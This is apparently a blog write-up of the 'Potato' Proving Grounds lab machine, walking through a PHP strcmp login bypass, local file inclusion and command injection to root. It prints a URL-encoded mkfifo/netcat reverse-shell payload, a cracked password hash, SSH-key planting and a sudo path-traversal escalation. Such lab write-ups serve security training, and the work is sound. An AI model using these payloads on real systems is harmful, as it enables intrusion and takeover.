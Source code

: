 ```yaml
---
title: Potato Writeup - Proving Grounds
date: 2022-07-23
excerpt: "Potato is an easy rated Proving Grounds Play machine that covers LFI and command injection."
categories:
  - Writeup
  - Proving_Grounds
tags:
  - Command Injection
  - LFI
  - Sudo 
ShowToc: true

---
```

Potato is an easy rated Proving Grounds Play machine that covers LFI and command injection.
<!--more-->
## NMAP

```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ef:24:0e:ab:d2:b3:16:b4:4b:2e:27:c0:5f:48:79:8b (RSA)
|   256 f2:d8:35:3f:49:59:85:85:07:e6:a2:0e:65:7a:8c:4b (ECDSA)
|_  256 0b:23:89:c3:c0:26:d5:64:5e:93:b7:ba:f5:14:7f:3e (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Potato company
|_http-server-header: Apache/2.4.41 (Ubuntu)
2112/tcp open  ftp     ProFTPD
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--   1 ftp      ftp           901 Aug  2  2020 index.php.bak
|_-rw-r--r--   1 ftp      ftp            54 Aug  2  2020 welcome.msg
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Checking FTP first and then downloading both files.
`ftp 192.168.243.101 2112`

index.php.bak
```php
<?php                                                                                                                      
$pass= "potato"; //note Change this password regularly                                                       
if($_GET['login']==="1"){                                                                                             
  if (strcmp($_POST['username'], "admin") == 0  && strcmp($_POST['password'], $pass) == 0) {              
    echo "Welcome! </br> Go to the <a href=\"dashboard.php\">dashboard</a>";                                                                                                                                                                 
    setcookie('pass', $pass, time() + 365*24*3600);                                                                   
  }else{                                                                                                              
    echo "<p>Bad login/password! </br> Return to the <a href=\"index.php\">login page</a> <p>";
  }                                                                                                                   
  exit();                                                                                                             
}                                       
?>                                                          
  <form action="index.php?login=1" method="POST">                                                                     
                <h1>Login</h1>                             
                <label><b>User:</b></label>
                <input type="text" name="username" required>
                </br>                               
                <label><b>Password:</b></label>                                                                       
                <input type="password" name="password" required>                                                      
                </br>                                                                                                 
                <input type="submit" id='submit' value='Login' >                                                      
  </form>                                                                                                             
</body>                                                    
</html>
```

the authentication uses `strcmp` which I think can be bypassed

Let's check the web app.

![](2022-07-19-09-18-30.png)

trying out `admin:potato` did not work. So I searched on how to bypass `strcmp` and found this article [doyler](https://www.doyler.net/security-not-included/bypassing-php-strcmp-abctf2016)

adding `[]` to the password param worked and we are logged in

![](2022-07-19-09-21-13.png)

There is a ping function. So I checked that first and tried some basic command injections, but nothing worked. I tried to do some LFI in the `page` parameter as well but did not return anything.

I checked the logs function and it looks like it prints the contents of the chosen log. I checked burp and there is a `file` parameter. Tried LFI with `/etc/passwd` and it worked.

![](2022-07-19-09-24-25.png)

We got two users from the `/etc/passwd` file.

`webadmin`
`florianges`

I checked their `.ssh` folder for any sshkey but nothing. The webadmin user also has its password `webadmin:$1$webadmin$3sXBxGUtDGIFAcnNTNhi6/:1001:1001:webadmin,,,:/home/webadmin:/bin/bash` So I cracked it

![](2022-07-19-09-27-05.png)

Tried ssh but did not work.

I tried to read `dashboard.php` and noticed that it is executing commands using `shell_exec`

![](2022-07-19-09-33-58.png)

I think this is executing `cat` against `logs/+whatever is in the file param` So maybe we can also chain another command after the `cat` execution. 

I tried `sleep 5` and I got a 5 second delay. so tried `whoami`

![](2022-07-19-09-36-55.png)

And we got command execution. 

Tried a netcat reverse shell and it worked. `file=;rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+192.168.49.243+80+>/tmp/f` 

I ran `linpeas.sh` but nothing interesting. and then I remember we have creds for `webadmin` I tried to `su webadmin` and it worked. I added my sshkey to `webadmin's` ssh folder for a better shell.

First thing I tried is check my sudo rights as we have creds. `(ALL : ALL) /bin/nice /notes/*` Here we can se we can run the command `nice` against anything in the `/notes` directory. so I tried `sudo /bin/nice /notes/../../../../../usr/bin/whoami` and the output was `root` so it did run whoami as `root` as it only checks the initial `/notes` and does not care if I go back a directory. From here we can just run `/bin/bash`

![](2022-07-19-10-21-24.png)

And we are root!~

